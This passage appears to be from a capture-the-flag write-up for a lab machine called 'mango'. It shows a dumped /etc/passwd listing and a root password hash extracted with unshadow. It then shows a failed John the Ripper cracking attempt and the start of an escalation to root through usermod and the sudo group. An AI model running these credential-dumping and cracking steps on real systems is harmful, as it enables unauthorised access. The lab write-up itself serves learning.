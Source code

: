 ```bash
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mango:x:1000:1000:mango:/home/mango:/bin/bash
admin:x:4000000000:1001:,,,:/home/admin/:/bin/sh
mongodb:x:111:65534::/home/mongodb:/usr/sbin/nologin
```
```bash
kali@kali:~$ unshadow passwd shadow | head -1 > hashes
kali@kali:~$ cat hashes 
root:$6$6uG5902N$XonoH4wyYV2f8.7fEVXLe03mLoH3r1lnJ59s2jTWTAV.qZKZH.CXYjCWuUG5gLnioLpSTBA3F1LXqQAOqdAJN/:0:0:root:/root:/bin/bash

# John do your work
kali@kali:~$ sudo john --format=sha512crypt -w /usr/share/wordlists/rockyou.txt hashes

# But no luck :(
kali@kali:~$ john --show hashes
0 password hashes cracked, 1 left
```

The last thing I want to try is, to add the user admin to sudo group with this code:

```bash
mango@mango:~$ su - admin
Password: 
$ bash
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/home/admin$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
admin@mango:/home/admin$ locate usermod
/snap/core/6350/usr/sbin/usermod
/snap/core/6350/usr/share/bash-completion/completions/lusermod
/snap/core/6350/usr/share/bash-completion/completions/usermod
/snap/core/7713/usr/sbin/usermod
/snap/core/7713/usr/share/bash-completion/completions/lusermod
/snap/core/7713/usr/share/bash-completion/completions/usermod
/usr/sbin/usermod
/usr/share/bash-completion/completions/lusermod
```